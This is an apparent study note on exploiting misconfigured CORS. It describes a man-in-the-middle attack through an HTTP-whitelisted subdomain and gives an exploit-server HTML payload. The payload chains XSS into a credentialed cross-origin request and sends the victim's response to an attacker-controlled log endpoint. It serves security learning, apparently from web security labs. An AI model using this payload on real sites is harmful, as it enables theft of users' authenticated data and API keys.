 
## Breaking TLS with Poorly Configured CORS
Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:
- The victim user makes any plain HTTP request.
- The attacker injects a redirection to: http://trusted-subdomain.vulnerable-website.com
- The victim's browser follows the redirect.
- The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: https://vulnerable-website.com
- The victim's browser makes the CORS request, including the origin: http://trusted-subdomain.vulnerable-website.com
- The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
- The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

We can use **Man in the Middle Attack** to spoof the user request!

## Using [[XSS]] with CORS
If you find a vulnerable input with [[XSS]], we can leverage that to perform CORS.

Put this in your exploit server:
```http
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            document.location="http://[XSS vulnerable address]/?[vuln_parameter]=<script>var xhr = new XMLHttpRequest();var url = 'http://vulnerableserver.web-security-academy.net';xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE) {fetch('https://[exploit_server_url]/log?key=' %2b xhr.responseText)};};xhr.open('GET', url %2b '/[directory with CORS]', true); xhr.withCredentials = true;xhr.send(null);%3c/script>&storeId=1"
        </script>
    </body>
</html>
```

URL Encode `<` & `+` (Already done above)
